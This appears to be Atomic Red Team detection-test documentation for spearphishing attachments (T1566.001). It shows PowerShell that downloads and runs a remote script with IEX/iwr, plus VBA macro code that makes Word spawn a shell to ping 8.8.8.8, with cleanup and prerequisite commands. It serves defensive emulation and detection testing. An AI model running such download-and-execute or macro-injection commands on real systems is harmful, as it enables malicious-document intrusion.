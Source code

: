 ~~~
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line
 is an indiciator of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invo
ke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Sh
ell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invo
ke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Clo
se #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
Command:
Remove-Item #{jse_path} -ErrorAction Ignore
Command (with inputs):
Remove-Item C:\Users\Public\art.jse -ErrorAction Ignore

Dependencies:
Description: Microsoft Word must be installed
Check Prereq Command:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Check Prereq Command (with inputs):
try {
  New-Object -COMObject "Word.Application" | Out-Null
  $process = "Word"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Command:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
Get Prereq Command (with inputs):
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
[!!!!!!!!END TEST!!!!!!!]


~~~